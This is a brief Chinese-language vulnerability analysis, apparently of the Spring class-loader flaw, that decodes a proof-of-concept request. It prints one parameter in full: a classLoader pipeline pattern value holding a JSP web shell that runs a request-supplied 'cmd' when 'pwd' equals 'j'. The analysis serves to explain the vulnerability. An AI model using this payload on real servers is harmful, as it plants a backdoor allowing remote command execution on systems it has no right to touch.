

# 漏洞分析
我们从POC入手进行分析。通过对POC中的data URL解码后可以拆分成如下5对参数。
参数名：class.module.classLoader.resources.context.parent.pipeline.first.pattern
参数值：%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
User.getClass()

    java.lang.Class.getModule()

        ......

            SomeClass.setPattern()